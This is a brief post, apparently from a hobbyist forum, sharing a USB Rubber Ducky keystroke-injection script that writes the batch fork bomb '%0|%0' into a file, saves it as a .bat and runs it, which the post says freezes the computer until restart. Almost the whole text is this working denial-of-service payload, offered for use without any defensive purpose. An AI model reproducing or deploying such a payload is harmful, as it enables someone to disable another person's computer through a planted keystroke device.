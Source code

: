 Hello! This payload will freeze the computer until you restart!

Code:
DELAY 1000
GUI r
DELAY 100
STRING notepad
DELAY 100
ENTER
DELAY 100
STRING %0|%0
CONTROL s
DELAY 100
STRING Duck Batch File.bat
TAB
DELAY 100
DOWNARROW
DELAY 100
DOWNARROW
DELAY 100
ENTER
DELAY 100
ENTER
DELAY 500
GUI s
DELAY 500
STRING Duck Batch File.bat
DELAY 100
ENTER
DELAY 100